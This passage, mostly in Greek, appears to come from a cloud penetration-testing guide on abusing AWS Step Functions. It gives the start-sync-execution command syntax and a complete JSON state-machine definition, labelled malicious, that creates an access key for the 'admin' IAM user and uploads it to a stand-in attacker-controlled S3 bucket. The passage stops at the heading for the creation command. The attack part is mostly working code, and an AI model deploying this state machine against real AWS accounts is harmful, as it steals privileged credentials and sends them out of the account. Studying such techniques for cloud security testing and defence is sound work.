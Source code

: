 ```bash
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
{% endcode %}

Τα παρακάτω παραδείγματα δείχνουν πώς να δημιουργήσετε μια μηχανή καταστάσεων που δημιουργεί ένα access key για τον χρήστη **`admin`** και εξάγει αυτό το access key σε ένα S3 bucket που ελέγχεται από τον επιτιθέμενο, εκμεταλλευόμενη αυτές τις άδειες και έναν επιεική ρόλο του περιβάλλοντος AWS. Αυτός ο επιεικής ρόλος θα πρέπει να έχει οποιαδήποτε πολιτική υψηλών προνομίων συνδεδεμένη με αυτόν (για παράδειγμα **`arn:aws:iam::aws:policy/AdministratorAccess`**) που επιτρέπει στη μηχανή καταστάσεων να εκτελεί τις ενέργειες **`iam:CreateAccessKey`** & **`s3:putObject`**.

* **stateMachineDefinition.json**:
```json
{
"Comment": "Malicious state machine to create IAM access key and upload to S3",
"StartAt": "CreateAccessKey",
"States": {
"CreateAccessKey": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"Parameters": {
"UserName": "admin"
},
"ResultPath": "$.AccessKeyResult",
"Next": "PrepareS3PutObject"
},
"PrepareS3PutObject": {
"Type": "Pass",
"Parameters": {
"Body.$": "$.AccessKeyResult.AccessKey",
"Bucket": "attacker-controlled-S3-bucket",
"Key": "AccessKey.json"
},
"ResultPath": "$.S3PutObjectParams",
"Next": "PutObject"
},
"PutObject": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:s3:putObject",
"Parameters": {
"Body.$": "$.S3PutObjectParams.Body",
"Bucket.$": "$.S3PutObjectParams.Bucket",
"Key.$": "$.S3PutObjectParams.Key"
},
"End": true
}
}
}
```
* **Εντολή** που εκτελέστηκε για **δημιουργία της μηχανής κατάστασης**:
